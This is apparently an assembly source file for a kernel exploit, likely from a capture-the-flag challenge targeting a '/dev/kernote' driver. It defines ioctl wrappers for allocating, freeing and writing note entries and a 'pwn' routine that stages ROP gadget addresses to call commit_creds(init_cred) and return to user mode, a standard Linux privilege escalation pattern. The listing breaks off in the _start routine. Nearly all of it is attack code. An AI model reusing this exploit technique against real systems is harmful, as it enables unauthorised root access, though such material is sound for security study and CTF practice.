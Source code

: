 ```x86asm

open:
    mov eax, 2
    syscall
    ret

ioctl:
    mov eax, 16
    syscall
    ret

execve:
    mov eax, 59
    syscall
    ud2

set_note:
    mov edx, edi
    mov edi, [kfd]
    mov esi, 0x6666
    jmp ioctl

alloc_entry:
    mov edx, edi
    mov edi, [kfd]
    mov esi, 0x6667
    jmp ioctl

free_entry:
    mov edx, edi
    mov edi, [kfd]
    mov esi, 0x6668
    jmp ioctl

write_note:
    mov rdx, rdi
    mov edi, [kfd]
    mov esi, 0x6669
    jmp ioctl

pwn:
    mov [user_rsp], rsp
    ; 0xffffffff81075c4c: pop rdi; ret
    mov r15, 0xffffffff81075c4c
    ; 0xffffffff8266b780: init_cred
    mov r14, 0xffffffff8266b780
    ; 0xffffffff810c9dd5: commit_creds
    mov r13, 0xffffffff810c9dd5
    ; 0xffffffff810761da: pop rcx; ret
    mov r12, 0xffffffff810761da
    lea rbp, [.after_syscall]
    ; 0xffffffff8107605a: pop r11; ret
    mov rbx, 0xffffffff8107605a
    ; 0xffffffff81c00109: return from syscall
    mov r10, 0xffffffff81c00109
    xor eax, eax
    syscall
.after_syscall:
    mov rsp, [user_rsp]
    ret

_start:
    ; kfd = open("/dev/kernote", O_RDWR)
```